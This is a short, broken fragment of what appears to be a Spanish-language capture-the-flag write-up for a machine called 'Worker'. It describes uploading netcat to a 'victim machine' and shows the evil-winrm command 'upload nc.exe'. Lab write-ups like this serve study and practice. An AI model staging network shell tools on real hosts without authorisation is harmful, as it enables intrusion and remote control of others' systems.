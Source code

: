 1. Uploadeamos un netcat a la maquina victima
    
    ```
![Worker-uardar-ejecutar](/assets/images/Worker-guardar-ejecutar.png) 

1. Desde evil-winrm, uploadeamos el fichero

    ```bash
    upload nc.exe